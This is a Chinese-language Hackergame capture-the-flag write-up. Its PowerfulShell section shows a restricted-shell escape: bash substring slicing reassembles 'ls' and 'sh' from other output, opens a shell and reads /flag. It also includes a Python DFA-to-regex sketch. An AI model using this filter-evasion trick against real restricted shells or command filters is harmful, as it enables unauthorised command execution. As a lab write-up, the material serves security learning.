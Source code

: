 # YUKI.N Writeups

一年一度的 Hackergame，玩得非常开心！这里记录一些和官方题解不同的做法。

- Author: [@liuly0322](https://github.com/liuly0322)
- License: [CC0 1.0](https://creativecommons.org/publicdomain/zero/1.0/deed.zh-hans)

## PowerfulShell

```shell
PowerfulShell@hackergame> ~
/players/PowerfulShell.sh: line 16: /players: Is a directory
```

所以我们可以构造执行 `ls ~` ，再拿到它的结果：

```shell
PowerfulShell@hackergame> _1=~
PowerfulShell@hackergame> _2=${_1:2:1}
PowerfulShell@hackergame> _3=${_1:7:1}
PowerfulShell@hackergame> _4=`$_2$_3 ~`
PowerfulShell@hackergame> $_4
/players/PowerfulShell.sh: line 16: PowerfulShell.sh: command not found
```

通过 `sh` 即可获得 shell，并在里面读取 flag：

```shell
PowerfulShell@hackergame> _5=${_4:14:2}
PowerfulShell@hackergame> $_5
cat /flag
flag{N0w_I_Adm1t_ur_tru1y_5He11_m4ster_bae08a2ded}
```

## 强大的正则表达式

介绍一种 flag2 和 flag3 构造 DFA 转正则的方法。（因为我搜到的几个库都不太好用所以自己手搓了）

以 flag3 为例：

```python
N = 8
def R_factory():
    R = [[None] * N for _ in range(N)]
    for i in range(N):
        for j in range(N):
            R[i][j] = ''
    return R

R = defaultdict(R_factory)

for i in range(N):
    for j in range(N):
        # how do i goes to j?
        way = '...'
        R[-1][i][j] = way


for k in range(N):
    for i in range(N):
        for j in range(N):
            new_way_relaxed = '(' + R[k-1][i][k] + ')(' + R[k-1][k][k] + ')*(' + R[k-1][k][j] + ')'
            R[k][i][j] = '(' + R[k-1][i][j] + ')' + '|(' + new_way_relaxed + ')'

result = R[7][7][0]
```
